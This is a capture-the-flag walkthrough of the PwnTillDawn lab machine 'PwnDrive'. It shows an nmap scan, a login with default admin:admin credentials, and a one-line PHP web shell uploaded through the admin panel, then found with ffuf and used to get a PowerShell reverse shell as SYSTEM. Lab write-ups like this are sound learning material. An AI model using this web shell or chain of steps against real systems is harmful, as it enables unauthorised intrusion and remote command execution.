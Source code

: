 ### PwnDrive Academy PwntillDawn

### IP Address = 10.150.150.11

### Difficulty = Easy

### OS = windows
Hi guys,
Will be walking you through a pwntilldawn easy box "pwndrive"
Let's get started.

## NMAP SCAN:

```

┌──(venus㉿AL13N)-[~]
└─$ nmap -A -T5 10.150.150.11                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-03 22:17 WAT
Warning: 10.150.150.11 giving up on port because retransmission cap hit (2).

** (atril:3324): WARNING **: 22:19:20.176: Error setting file metadata: No such file or directory
Nmap scan report for 10.150.150.11
Host is up (0.19s latency).
Not shown: 980 closed tcp ports (conn-refused)
PORT      STATE    SERVICE            VERSION
21/tcp    open     ftp                Xlight ftpd 3.9
80/tcp    open     http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
306/tcp   filtered unknown
443/tcp   open     ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
445/tcp   open     microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1110/tcp  filtered nfsd-status
1433/tcp  open     ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-24T13:11:13
|_Not valid after:  2050-08-24T13:11:13
|_ssl-date: 2023-06-03T22:06:39+00:00; +46m37s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|_  Product_Version: 6.1.7601
3306/tcp  open     mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 1053
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolOld, LongColumnFlag, Support41Auth, SupportsTransactions, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, SupportsCompression, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: jDU_\3&cCbDmy9MYU}9B
|_  Auth Plugin Name: mysql_native_password
3371/tcp  filtered satvid-datalnk
3389/tcp  open     ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2023-06-02T18:08:29
|_Not valid after:  2023-12-02T18:08:29
|_ssl-date: 2023-06-03T22:06:37+00:00; +46m37s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-03T22:06:29+00:00
5631/tcp  filtered pcanywheredata
8042/tcp  filtered fs-agent
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49155/tcp open     msrpc              Microsoft Windows RPC
49156/tcp open     msrpc              Microsoft Windows RPC
49157/tcp open     msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-03T15:06:29-07:00
|_clock-skew: mean: 1h46m37s, deviation: 2h38m45s, median: 46m36s
| smb2-time: 
|   date: 2023-06-03T22:06:29
|_  start_date: 2020-08-24T13:11:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.34 seconds

```

From the scan it shows the box is running on a windows OS

so, enumerating port 21 (ftp) gives nothing. Then moving on to the next port which's port 80(http)

we can see that there's nothing intresting on the page except the *signin* functionality
so, let's try to signin using default credentials **admin:admin** 
![2023-06-03_22-45](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/af1826b2-aa06-4337-b2d7-55d26d90e0ca)
boom we are in the admin's panel.
AS you can see there is an upload functionality,let's try to upload a shell (NB: the server is running php. Php web shell should work)
![succ_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1d05b3a7-0383-459d-afa3-97d66d5b38f2)
wow our shell has been uploaded successfully.
~~~
the shell
<?php system($_GET['cmd']); ?>
~~~
so, let's find our uploaded shell by bruteforcing for directories using ffuf
![finding_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/0f28f198-8eb0-433f-8000-c84fb1178698)
Good we found it ;)

Now lets's gain  reverse shell via our uploaded webshell
![revrsjpg](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a68e92f2-b193-41dc-958b-0f0b2f1ea797)
i used a powershell reverse shell from [https://revshells.com/].
Then start netcat listener and press F5 to refresh the page.
![done](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8c23decd-9d37-41df-834a-846a6ea9a815)
BOOM!!  sweet reverse shell ;)
luckily we got the shell as system  escalating privilege isn't required.

DONE!!

*Till another day 999 to the world*

